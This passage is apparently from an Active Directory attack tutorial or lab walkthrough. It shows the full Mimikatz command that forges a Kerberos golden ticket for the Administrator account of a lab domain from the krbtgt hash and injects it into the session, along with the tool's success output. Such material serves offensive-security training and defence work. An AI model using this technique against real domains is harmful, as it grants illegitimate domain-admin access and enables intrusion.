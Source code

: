 ![PowerView-1](img/PowerView-1.png)

Now, armed with all the required information, we can use `Mimikatz` to create a ticket for the account `Administrator`. The `/ptt` argument makes `Mimikatz` [pass the ticket into the current session](https://adsecurity.org/?page_id=1821#KERBEROSPTT):

```cmd
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```
